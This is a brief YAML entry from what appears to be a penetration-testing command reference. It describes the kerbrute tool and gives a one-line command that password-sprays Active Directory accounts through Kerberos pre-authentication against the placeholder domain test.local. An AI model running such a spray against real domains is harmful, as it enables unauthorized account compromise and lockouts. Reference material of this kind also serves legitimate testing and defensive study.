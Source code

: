```yaml
---
description: |
  ropnop's kerbrute bruteforces and enumerates valid Active Directory accounts through Kerberos Pre-Authentication. The following command will perform a password spray account against a list of provided users given a password. 

  Command Reference:

  	Domain: test.local

  	Username List: domain_users.txt

  	Password: password123
items:
  Password:
    - code: |
        kerbrute_linux_amd64 passwordspray -d test.local domain_users.txt password123
filters:
  Kerberos:
    - code: |
        empty
---
```

